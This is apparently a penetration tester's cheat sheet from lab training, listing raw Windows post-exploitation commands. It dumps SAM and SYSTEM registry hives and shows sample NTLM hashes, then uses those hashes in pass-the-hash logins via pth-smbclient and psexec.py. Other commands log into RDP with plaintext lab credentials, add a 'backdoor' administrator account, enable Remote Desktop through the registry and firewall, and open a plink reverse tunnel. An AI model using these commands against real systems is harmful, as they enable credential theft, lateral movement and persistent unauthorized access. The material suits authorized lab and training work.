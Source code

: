 reg save hklm\sam c:\sam
reg save hklm\system c:\system

samdump2 system sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c0e2874fb130015aec4070975e2c6071:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:d0c0896b73e0d1316aeccf93159d7ec0:::

fgdump.exe

pth-smbclient -p 4445 -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //127.0.0.1/c$


copied psexec.py to local folder and updated default port to the forwarded port.

python3 ./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE alice@127.0.0.1 cmd.exe

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD -r disk:share=<path>

rdesktop 192.168.XXX.XX -u OFFSEC\\Allison -p <PASSWORD> -r disk:share=/tmp

xfreerdp --plugin rdpsnd --plugin rdpdr --data disk:home:/home -- -u cfsnspk03 10.129.3.4

xfreerdp /u:cfsnspk03 /v:10.129.3.4 /cert-ignore

xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

netsh advfirewall firewall set rule group="remote desktop" new enable=yes


python /usr/share/doc/python3-impacket/examples/psexec.py alice:ThisIsTheUsersPassword01@10.11.1.20

### adding yes answer to plink.exe command
cmd.exe /c echo y | C:\Tools\port_redirection_and_tunneling\plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

##### Powershell

Set-ExecutionPolicy Unrestricted -Scope CurrentUser
